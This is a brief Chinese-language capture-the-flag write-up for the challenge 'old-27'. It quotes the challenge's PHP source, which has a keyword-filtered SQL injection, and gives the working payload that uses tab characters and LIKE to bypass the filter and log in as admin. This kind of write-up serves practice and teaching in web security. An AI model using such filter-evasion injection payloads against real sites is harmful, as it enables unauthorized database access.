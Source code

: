 # old-27_150

* 進到這一個網站可以看到斗大的提示 --- sql injection，以及 source code
    ```php=
    if($_GET['no']){
      $db = dbconnect();
      if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
      $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
      if($r['id']=="guest") echo("guest");
      if($r['id']=="admin") solve(27); // admin's no = 2
    }
    ```
* 這題很像是 old-18_100 的題目，所以我把 old-18 的 payload 稍微改一下 `2)%09or%09id%09like%27admin%27%09--%09` 就過了
* 要注意有過濾 = 以及 #
